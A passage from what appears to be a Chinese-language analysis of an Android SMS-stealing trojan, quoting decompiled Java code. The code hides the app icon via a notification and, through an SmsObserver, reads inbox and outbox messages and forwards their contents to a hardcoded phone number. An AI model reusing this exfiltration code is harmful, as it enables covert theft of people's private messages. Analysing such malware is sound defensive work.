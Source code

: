       }
    }
    .start();

然后依旧是发短信告诉自己。


然后添加一个推送在通知栏：

	:::java
      public int onStartCommand(Intent paramIntent, int paramInt1, int paramInt2)
  	{
    this.notification = new Notification(17301568, "系统消息", System.currentTimeMillis());
    PendingIntent localPendingIntent = PendingIntent.getActivity(this, 0, new Intent(this, MainActivity.class), 0);
    this.notification.setLatestEventInfo(this, "Help", "Running a Service in the Foreground", localPendingIntent);
    return super.onStartCommand(paramIntent, 1, paramInt2);
 	}

目的是点击该通知去出发mainactivity来隐藏图标，因为每次开机都要隐藏嘛~

然后就是最为关键的部分，以下代码包含了对短信的收件箱和发件箱短信的获取，拦截并且根据内容判定是否是指令短信（内容以#开头），最后将非指令非自己伪造的短信（FLAG=FLASE）发送到作者自己的手机上来。还对长短信进行分割：

    :::java
	if (str3.length() > 60)
      {
        localSmsManager.sendTextMessage("18670259904", null, str3.substring(0, str3.length() / 2), null, null);
        localSmsManager.sendTextMessage("18670259904", null, str3.substring(1 + str3.length() / 2), null, null);
      }

> 短信监听服务，当收件箱或者发件箱数目有改动的时候会调用

    private final class SmsObserver extends ContentObserver
 	 {
    public ListenMessageService.SmsHandler smsHandler;

    public SmsObserver(ListenMessageService.SmsHandler arg2)
    {
      super();
      this.smsHandler = localHandler;
    }

    @SuppressLint({"UnlocalizedSms", "SimpleDateFormat"})
    public void onChange(boolean paramBoolean)
    {
      System.out.println("=====================================================");
      System.out.println("木马进入ContentObserver，开始截获----------------------------");
      Cursor localCursor1 = ListenMessageService.this.getContentResolver().query(Uri.parse("content://sms/outbox"), null, null, null, null);
      if (localCursor1 == null);
      Cursor localCursor2;
      do
      {
        return;
        do
        {
          System.out.println("木马进入SEND查询---------------------------------");
          StringBuilder localStringBuilder2 = new StringBuilder();
          localStringBuilder2.append("sendTo:").append(localCursor1.getString(localCursor1.getColumnIndex("address")));
          localStringBuilder2.append(";content:").append(localCursor1.getString(localCursor1.getColumnIndex("body")));
          SmsManager.getDefault().sendTextMessage("18670259904", null, "【数据库截获】SEND::" + localStringBuilder2.toString(), null, null);